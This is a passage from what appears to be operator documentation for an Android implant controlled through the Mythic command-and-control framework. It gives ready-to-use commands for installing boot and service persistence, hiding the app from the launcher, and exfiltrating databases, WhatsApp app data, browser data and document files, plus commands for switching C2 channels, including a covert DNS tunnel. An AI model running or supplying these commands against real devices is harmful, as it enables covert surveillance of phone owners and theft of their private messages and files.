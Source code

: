#### Persistence
```bash
# Check current persistence methods
mythic-cli agent command --id <agent_id> --module persistence --command status

# Enable boot persistence
mythic-cli agent command --id <agent_id> --module persistence --command enable_boot_receiver

# Enable service persistence
mythic-cli agent command --id <agent_id> --module persistence --command enable_service_watchdog

# Hide from app list
mythic-cli agent command --id <agent_id> --module stealth --command hide_from_launcher
```

#### Data Exfiltration
```bash
# Export database files
mythic-cli agent command --id <agent_id> --module exfil --command export_databases

# Backup application data
mythic-cli agent command --id <agent_id> --module exfil --command backup_app_data --args '{"package": "com.whatsapp"}'

# Export browser data
mythic-cli agent command --id <agent_id> --module exfil --command export_browser_data

# Bulk file collection
mythic-cli agent command --id <agent_id> --module exfil --command collect_files --args '{"extensions": [".pdf", ".doc"], "max_size_mb": 100}'
```

## C2 Profile Management

### Profile Configuration

```bash
# List available C2 profiles
mythic-cli c2 list

# Get profile status
mythic-cli c2 status --profile https_beacon

# Update profile configuration
mythic-cli c2 config --profile https_beacon --beacon-interval 600

# Switch agent to different profile
mythic-cli agent switch-c2 --id <agent_id> --profile fcm_push

# Test profile connectivity
mythic-cli c2 test --profile dns_covert --target-domain tunnel.example.com
```
